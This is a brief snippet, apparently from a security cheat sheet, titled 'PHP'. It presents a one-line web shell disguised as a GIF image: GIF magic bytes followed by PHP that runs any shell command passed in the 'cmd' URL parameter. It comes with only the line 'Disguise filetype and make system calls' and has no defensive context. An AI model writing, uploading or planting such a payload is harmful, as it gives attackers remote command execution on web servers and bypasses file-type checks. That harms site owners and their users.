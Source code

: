 # PHP

Quick snippet:

Disguise filetype and make system calls.

```text
GIF8;
<?php echo "<pre>";
system($_GET['cmd']); ?>
```

